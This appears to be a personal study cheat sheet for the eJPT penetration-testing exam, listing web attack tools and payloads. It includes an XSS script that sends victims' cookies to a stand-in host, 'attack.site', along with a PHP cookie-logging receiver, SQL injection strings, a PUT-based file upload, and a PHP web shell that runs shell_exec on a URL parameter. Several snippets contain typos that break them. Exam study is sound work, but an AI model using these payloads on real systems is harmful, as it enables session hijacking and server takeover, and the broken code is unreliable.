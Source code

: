 # Web Application Tools
 My list of Web Application tools for the eJPT exam.

-------------------------------------

## *HTTP Protocol and Fingerprinting*

1. Netcat
    * nc [targetAddress] 80

2. OpenSSL s_client -connect [targetAddress:443]

3. httprint -P0 -h [targetAddress] -s /usr/share/httprint/signatures.txt

-------------------------------------

## *HTTP Verbs - Use in Burpsuite*

### (Can be used on misconfigured web servers)

- GET - Request a webpage
- HEAD - Request Header information
- POST - Post form data (eg, username, password)
- PUT - Create an arbitrary file on the server
- DELETE - Delete/remove file from the server
- OPTIONS - Check communications option

"GET" Example:

    GET /page.php?comman=pwd HTTP/1.1
    Host: www.host.com


"POST" Example:

    POST /login.php? HTTP/1.1
    Host: www.host.com


    username=admin&password=1234


"DELETE" Example:

    DELETE /wp-content/imp.file HTTP/1.1
    Host: www.host.com

"PUT" Example: 
    
    $wc -m payload.php
    20 payload.php

    $nc [targetAddress] 80
    PUT /payload.php HTTP/1.0
    Content-type: text/html
    Content-length: 20


    <?php phpinfo(); ?>

-------------------------------------

## *Dirbuster(GUI)/Gobuster/Dirb*

* Search for interesting file types
    * php
    * txt
    * bak
    * old

    $gobuster dir --url http://host.com/ -w /path/to/word.list -x php,txt,old,bak -o output.txt

    $dirb http://host.com/ /path/to/word.list -X php,txt,bak,old -o output.txt

    $dirb https://host.com/ (Simple SSL test)

*Tips: Searh for **Signup pages** and **old configuration files.***

-------------------------------------

## Cross-Site Scripting

* Session Cookies
    * document.cookie - This is where the cookies are stored

    *Display cookie as an alert*
    ``` 
    [<script>alert(document.cookie)</script>]
    ```
    *Victim's Browser* <--- **Inject this piece of code!**
    ```
    <script>
    var i = newImage();
    i.scr="http://attack.site/log.php?="+document.cookie;
    </script>
    ```

    *Attacker's Computer*
    ```
    <?php
    $filename="/tmp/log.txt;
    $fp=fopen($filename, 'a');
    $cookie=$_GET['q'];
    fwrite($fp, $cookie);
    fclose($fp);
    ?>
    ```
    *Alternate code*

    ```
    <?php
    $ip = $_SERVER['REMOTE_ADDR'];
    $browser = $_SERVER['HTTP_USER_AGENT'];

    $fp = fopen('jar.txt', 'a');

    fwrite($fp, $ip.' '. $browser." \n");
    fwrite($fp, urldecode($_SERVER('QUERY_STRING')). " \n\n");
    fclose($fp);
    ?>
    ```
-------------------------------------
## SQL-Injection

*Tip: Look at the source code to check for any IDs such as src="images/***els1***"!*
* SQL Statements

```
SELECT * FROM table WHERE <condition>;
```

Putting comments in statements
```
# Hash symbol
-- Double hyphens followed by a whitespace (add a space and another hyphen "-- -")

Select * FROM table; # Comment
Select * FROM table; -- Another comment
```

* BOOLEAN Attacks

````
SELECT * FROM items WHERE id='' OR '1' = '1'; -- -'
````

* Union Attacks

```
SELECT * FROM items WHERE id='' UNION SELECT null, null, null; -- -'
```

More SQL-Injection links




-------------------------------------

## *Reverse Shell Links*

[Pentest Monkey Website] (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[GTFOBins Website] (https://gtfobins.github.io/)


Example PHP Reverse Shell:

    <?php 
    if (isset($_GET['cmd']))
    {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
    }
    ?>

